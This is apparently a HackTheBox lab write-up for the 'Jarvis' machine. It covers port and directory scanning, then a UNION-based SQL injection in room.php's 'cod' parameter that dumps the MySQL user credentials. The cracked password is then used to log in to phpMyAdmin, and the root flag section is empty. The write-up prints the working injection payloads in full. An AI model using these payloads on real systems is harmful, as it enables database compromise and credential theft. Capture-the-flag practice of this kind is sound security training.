# Jarvis - Medium

Target IP: **10.129.229.137**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.229.137 -v```

Output shows standard port 22 for ssh, port 80 and 64999 running Apache 2.4.25.

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Stark Hotel
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the webpage. We are greeted with this front page.


It seems like the login button doesn't do anything.

We see ```supersecurehotel.htb```, so let's add it to our ```/etc/hosts``` file.

Navigating to port 64999 shows this weird message, but nothing else.



Let's enumerate further.

We get some hits from fuzzing directories.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8j15agp1rz]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://supersecurehotel.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://supersecurehotel.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

adminqcXWQhOg           [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 13ms]
                        [Status: 200, Size: 23628, Words: 3014, Lines: 544, Duration: 20ms]
css                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 12ms]
js                      [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 13ms]
fonts                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 13ms]
phpmyadmin              [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 13ms]
                        [Status: 200, Size: 23628, Words: 3014, Lines: 544, Duration: 18ms]
sass                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 12ms]
:: Progress: [87651/87651] :: Job [1/1] :: 101 req/sec :: Duration: [0:00:34] :: Errors: 0 ::
```

Navigating to ```/phpmyadmin``` shows us a log in page for phpmyadmin.


Trying to log in with common credentials, we see that the error is returned to us. This makes me believe that this is vulnerable to SQLi.



Actually, this doesn't seem like it's performing queries directly against the database, but using the mysql binary itself to log in, as the error message seems similar. We should look somewhere else.

There's interesting behavior being shown by ```/room.php``` on the main website.

It takes in a parameter named ```cod``` then returns information about the room, like a picture, cost, etc.



We can freely change the parameter and the page still loads. Setting ```cod``` equal to 100, we don't get anything.



This behavior makes me believe the parameter is the id for specific rooms that are stored in a table. There is a back-end query that matches the id that is passed in, and if the entry exists in the table, it returns to us all the contents of it.

To exploit this, we need to find out how many columns are in our current table first.

The payload ```cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -``` works. It shows our numbers on the appropriate spot where the elements of the entry are displayed.



We can start exploiting this now. Let's check what database we are currently in.

We are in the ```hotel``` database.



We can use ```GROUP_CONCAT()``` to get all the values in different rows into one string.

With this payload, we can see all the databases: ```cod=100 UNION SELECT 1,GROUP_CONCAT(SCHEMA_NAME),3,4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

The ```mysql``` database seems the most interesting.



Let's get all the tables from the ```mysql``` database with this payload: ```cod=100 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3,4,5,6,7 from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'mysql';-- -```

The output is long so we can't see it all on the page, but we can go into the page source.



The ```user``` table seems like what we are looking for.

Let's get the columns in the table: ```cod=100 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),GROUP_CONCAT(TABLE_NAME),GROUP_CONCAT(TABLE_SCHEMA),5,6,7 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user';-- -```

There is a ```user``` and ```password``` column.



Finally, we can retrieve the values: ```cod=100 UNION SELECT 1,GROUP_CONCAT(USER),GROUP_CONCAT(PASSWORD),4,5,6,7 from mysql.user;-- -```



There is a set of credentials, ```DBadmin:2D2B7A5E4E637B8FBA1D17F40318F277D29964D0```.

I'm guessing we can use these credentials to log in to phpmyadmin.

Logging in doesn't work. It might be a hash we need to crack.

Hashcat says that this hash could possibly be in a variety of formats, but since this is for mysql, I'm guessing it is ```-m 300```.

```
The following 7 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    100 | SHA1                                                       | Raw Hash
   6000 | RIPEMD-160                                                 | Raw Hash
    170 | sha1(utf16le($pass))                                       | Raw Hash
   4700 | sha1(md5($pass))                                           | Raw Hash salted and/or iterated
  18500 | sha1(md5(md5($pass)))                                      | Raw Hash salted and/or iterated
   4500 | sha1(sha1($pass))                                          | Raw Hash salted and/or iterated
    300 | MySQL4.1/MySQL5                                            | Database Server
```

We successfully crack the hash.

```
2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
```

Let's log in now.

We're in! We can see the version of phpmyadmin, 4.8.0.



Let's look for publicly disclosed vulnerabilities.


## Root Flag

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
